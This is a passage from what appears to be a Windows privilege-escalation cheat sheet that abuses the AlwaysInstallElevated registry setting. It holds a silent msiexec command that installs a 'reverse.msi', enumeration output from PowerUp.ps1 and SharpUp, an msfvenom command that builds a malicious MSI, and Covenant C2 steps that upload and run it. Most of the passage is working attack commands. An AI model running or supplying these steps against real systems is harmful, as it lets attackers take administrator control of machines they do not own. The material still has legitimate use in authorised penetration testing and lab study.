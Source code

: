 transfer to windows, run this cmd:

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

### covenant

Make sure that you have a medium-integrity grunt. 

Enumerate with `PowerUp.ps1` or `SharpUp audit`. Look for 1's on `HKLM` and `HKCU` under `AlwaysInstallElevated Registry Keys`:

Output on SharpUp:

```
=== AlwaysInstallElevated Registry Keys ===

	HKLM:	1
	HKCU: 	1
	
```

Output on PowerUp.ps1:

```
[*] Checking for AlwaysInstallElevated registry key...


AbuseFunction : Write-UserAddMSI

```

On Kali:

```bash
msfvenom -p windows/exec CMD="blahblahblah" -i msi -o file.msi
```

replace "blahblahblah" with shellcode

On Covenant:

```
upload /filepath:"C:\Users\Public\file.msi"

* select file *

ChangeDirectory C:\Users\Public
ls
```

```
shell msiexec /quiet /qn /i file.msi
```

## passwords in registry

---
